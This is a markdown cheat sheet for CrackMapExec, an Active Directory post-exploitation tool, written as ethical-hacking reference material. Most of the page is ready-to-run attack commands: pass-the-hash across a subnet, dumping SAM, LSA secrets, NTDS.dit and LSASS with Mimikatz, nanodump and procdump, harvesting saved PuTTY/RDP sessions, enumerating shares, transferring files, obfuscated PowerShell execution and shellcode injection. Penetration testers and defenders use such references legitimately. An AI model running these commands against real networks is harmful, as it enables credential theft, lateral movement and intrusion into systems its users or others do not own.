 ```yaml
---
title: CrackMapExec
categories: [Ethical Hacking Tools, Frameworks and Suites]
tags: [crackmapexec, ldap, winrm, smb, ssh, mssql, pth]
comments: true
---
```


## Overview

CrackMapExec (CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. Built with stealth in mind, CME follows the concept of "Living off the Land", abusing built-in Active Directory features/protocols to achieve it's functionality and allowing it to evade most endpoint protection/IDS/IPS solutions. [^1]

Kali Linux comes with CME pre-installed. [^2]

| Tool Name | Version | MITRE ATT&CK Tactic | MITRE ATT&CK Technique |
| --------- | ------- | ------------------- | ---------------------- |
| [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) | V5.3.0 | [Credential Access](https://attack.mitre.org/tactics/TA0006/) <br> [Privilege Escalation](https://attack.mitre.org/tactics/TA0004/) <br> [Discovery](https://attack.mitre.org/tactics/TA0007/) <br> [Collection](https://attack.mitre.org/tactics/TA0009/) <br> [Command and Control](https://attack.mitre.org/tactics/TA0011/) <br> [Exfiltration](https://attack.mitre.org/tactics/TA0010/) <br> [Execution](https://attack.mitre.org/tactics/TA0002/) <br> [Persistence](https://attack.mitre.org/tactics/TA0003/) <br> [Defense Evasion](https://attack.mitre.org/tactics/TA0005/) <br> [Lateral Movement](https://attack.mitre.org/tactics/TA0008/) |

## CrackMapExec Modules

CME contains a multitude of modules that can be executed, using the `-L` parameter will list the available standalone modules that can be used against a target. The `--options` switch can be added following the module to gain further information.

### Lateral Movement

#### Pass The Hash/Password

After obtaining credential hashes, both the full hash or just the nt hash (second half) can be used to move laterally using Pass the Hash techniques. The following checks will attempt authentication to the entire /24 subnet though a single target may also be used.

```bash
# Pass the Hash
cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c' --local-auth # For local accounts

# Pass the Password
cme 192.168.1.0/24 -u Administrator -d Domain -p Password
cme 192.168.1.0/24 -u Administrator -d Domain -p Password
```

## Credential Access

```bash
# Dump SAM hashes
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --sam

# Dump LSA secrets
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --lsa

# Dump the NTDS.dit from target Domain Controllers
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --ntds drsuapi

# Run Mimikatz sekurlsa:logonpasswords
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M mimikatz

# Dump LSASS using nanodump and parse result with pypykatz
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M nanodump

# Dump LSASS using procdump and parse result with pypykatz
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M procdump

# Collect saved session data from PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M invoke_sessiongopher
```

## Discovery

```bash
# Enumerate shares and access
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --shares

# Enumerate active sessions
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --sessions

# Enumerate disks
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --disks

# Enumerate logged on users
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --loggedon-users

# Enumerate password policy
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --pass-pol

# Enumerate active RDP sessions
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M get_netrdpsession

# Spider shares
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --spider %SHARE%

# Spider folders
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --spider-folder %FOLDER%
```

## Collection

```bash
# File Upload
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --put-file %LOCAL_FILE% %REMOTE_PATH%

# File Download
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --get-file %REMOTE_PATH% %LOCAL_FILE%

# Take screenshots at regular intervals. Interval in seconds, endtime in HH:MM format.
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M get_timedscreenshot %INTERVAL% %ENDTIME%
```

## Execution

```bash
# Command execution via smb, mmc, wmi, or at
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --exec-method {`smbexec`,`mmcexec`,`wmiexec`,`atexec`} -x %COMMAND%

# Obfuscated Powershell command execution via wmi
cme 192.168.1.0/24 -u Administrator -d Domain -p Password --exec-method wmiexec -X %COMMAND% --obfs

# Process Injection. Path = file containing raw shellcode, ProcID = Process ID to inject (defaults to current PowerShell process)
cme 192.168.1.0/24 -u Administrator -d Domain -p Password -M shellcode_inject %PATH% %PROCID%
```

## Sources

[^1]: [CrackMapExec Wiki](https://wiki.porchetta.industries/)
[^2]: [Kali Linux - CrackMapExec](https://www.kali.org/tools/crackmapexec/)
